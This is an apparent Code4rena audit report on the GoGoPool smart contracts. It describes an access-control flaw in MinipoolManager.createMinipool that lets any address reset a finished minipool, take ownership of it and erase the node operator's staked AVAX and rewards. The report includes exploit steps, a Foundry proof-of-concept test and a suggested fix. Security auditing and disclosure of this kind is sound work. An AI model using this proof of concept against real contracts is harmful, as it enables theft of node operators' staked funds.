 # Original link
https://github.com/code-423n4/2022-12-gogopool-findings/issues/772
# Lines of code

https://github.com/code-423n4/2022-12-gogopool/blob/main/contracts/contract/MinipoolManager.sol#L196


# Vulnerability details

## Impact
The `MinipoolManager.createMinipool` function do not validate the caller's address due to which any address can invoke the `createMinipool` function with any `nodeID` (existing or new) as input. For any existing `nodeID` the function can be invoked as long as the `requireValidStateTransition(minipoolIndex, MinipoolStatus.Prelaunch)` condition is met. This condition is met when the Minipool is in these states:
 - Withdrawable
 - Finished
 - Canceled
 - Error

Upon execution the `createMinipool` function resets the Minipool state (sets all values to zero). 

Since the function can be invoked by anyone for any existing `nodeID`, it can be used to nullify all funds of node operators including original AVAX staked plus any AVAX rewards. The attacker will need some initial capital to invoke the `createMinipool` function, this capital however can be safely recovered by the attacker after `MinipoolCancelMoratoriumSeconds` duration.

This attack can result in loss of funds for all the node operators of GoGoPool protocol. 

## Proof of Concept
Steps for exploit:

1. The attacker waits until a Minipool (of nodeID `N`) comes into `Withdrawable` state.
2. Attacker stakes the necessary GGP and invokes the `createMinipool` function with nodeID `N` as input.
3. The Minipool state gets reset hence all funds of original Minipool owner (node operator) gets resets to 0. Also the attacker becomes the owner of that respective Minipool.
4. After waiting for `MinipoolCancelMoratoriumSeconds` the attacker can successfully recover his initial capital.

Test Scenario: 

```solidity
contract MinipoolManagerTest is BaseTest {
	using FixedPointMathLib for uint256;
	address private nodeOp;
	address private attacker;

	function setUp() public override {
		super.setUp();
		nodeOp = getActorWithTokens("nodeOp", MAX_AMT, MAX_AMT);
		attacker = getActorWithTokens("attacker", MAX_AMT, MAX_AMT);
	}

	function testBug() public {
		address liqStaker1 = getActorWithTokens("liqStaker1", MAX_AMT, MAX_AMT);
		vm.prank(liqStaker1);
		ggAVAX.depositAVAX{value: MAX_AMT}();

		uint256 duration = 2 weeks;
		uint256 depositAmt = 1000 ether;
		uint256 avaxAssignmentRequest = 1000 ether;
		uint256 validationAmt = depositAmt + avaxAssignmentRequest;
		uint128 ggpStakeAmt = 200 ether;

		vm.startPrank(nodeOp);
		ggp.approve(address(staking), MAX_AMT);
		staking.stakeGGP(ggpStakeAmt);
		MinipoolManager.Minipool memory mp1 = createMinipool(depositAmt, avaxAssignmentRequest, duration);
		vm.stopPrank();

		vm.startPrank(address(rialto));
		minipoolMgr.claimAndInitiateStaking(mp1.nodeID);
		bytes32 txID = keccak256("txid");
		minipoolMgr.recordStakingStart(mp1.nodeID, txID, block.timestamp);

		skip(duration);

		uint256 rewards = 10 ether;
		deal(address(rialto), address(rialto).balance + rewards);
		minipoolMgr.recordStakingEnd{value: validationAmt + rewards}(mp1.nodeID, block.timestamp, rewards);
		vm.stopPrank();

		uint256 attackerInitialAvaxBal = attacker.balance;
		uint256 attackerInitialGgpBal = ggp.balanceOf(attacker);
		vm.startPrank(attacker);
		ggp.approve(address(staking), MAX_AMT);
		staking.stakeGGP(200 ether);
		minipoolMgr.createMinipool{value: 1000 ether}(mp1.nodeID, 0, 0, 1000 ether);
		vm.stopPrank();

		vm.startPrank(nodeOp);
		vm.expectRevert(MinipoolManager.OnlyOwner.selector);
		minipoolMgr.withdrawMinipoolFunds(mp1.nodeID);
		assertEq(minipoolMgr.getMinipool(minipoolMgr.getIndexOf(mp1.nodeID)).owner, attacker);
		vm.stopPrank();

		skip(dao.getMinipoolCancelMoratoriumSeconds());
		vm.startPrank(attacker);
		minipoolMgr.cancelMinipool(mp1.nodeID);
		staking.withdrawGGP(200 ether);

		assertEq(attacker.balance, attackerInitialAvaxBal);
		assertEq(ggp.balanceOf(attacker), attackerInitialGgpBal);
	}
}
```
## Tools Used
Manual review

## Recommended Mitigation Steps
The `createMinipool` function should validate the caller using the `onlyOwner` function.

Also the sponsors should verify whether it is intended to allow the Minipool state transition from `Withdrawable` to `Prelaunch` state. If not, the `else if` condition in `requireValidStateTransition` should be corrected accordingly. 
```solidity
             else if (currentStatus == MinipoolStatus.Withdrawable || currentStatus == MinipoolStatus.Error) {
			isValid = (to == MinipoolStatus.Finished || to == MinipoolStatus.Prelaunch);
		}
```